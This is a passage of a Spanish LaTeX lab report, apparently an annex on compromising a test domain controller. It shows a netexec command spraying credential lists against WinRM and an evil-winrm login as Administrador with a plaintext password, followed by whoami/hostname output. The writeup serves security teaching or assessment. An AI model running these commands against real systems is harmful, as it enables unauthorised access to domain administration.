    
\includegraphics[width=1\textwidth]{Imagenes/login-brute-force.png}

    \vspace{0.2cm}
    \captionazul{Validación de credenciales administrativas contra los servicios del controlador de dominio.}
    \label{fig:anexo_login_brute_force_dc01}
\end{figure}

\subsubsection*{Validación contra WinRM}

A continuación se comprueba que las mismas credenciales permiten autenticarse contra WinRM:

\begin{bashbox}
netexec winrm \
10.10.10.5 \
-d CORP \
-u users_lab.txt \
-p passwords_lab.txt
\end{bashbox}

\subsubsection*{Acceso remoto mediante Evil-WinRM}

Con credenciales válidas se establece una sesión remota interactiva sobre DC01:

\begin{bashbox}
evil-winrm \
-i 10.10.10.5 \
-u Administrador \
-p 'Admin123*'
\end{bashbox}

Una vez dentro, se valida el contexto de ejecución:

\begin{configbox}
whoami
hostname
\end{configbox}

Resultado esperado:

\begin{configbox}
corp\Administrador
DC01
\end{configbox}

\begin{figure}[H]
    \centering
    
\includegraphics[width=1\textwidth]{Imagenes/evil-wnrm-DC01.png}

    \vspace{0.2cm}
    \captionazul{Acceso remoto al controlador de dominio DC01 mediante Evil-WinRM.}
    \label{fig:anexo_evil_winrm_dc01}
\end{figure}




% GLOSARIO
% =========================================================
% \clearpage

% \phantomsection
% \addcontentsline{toc}{section}{Glosario de términos}

% \crearglosario
\end{document}
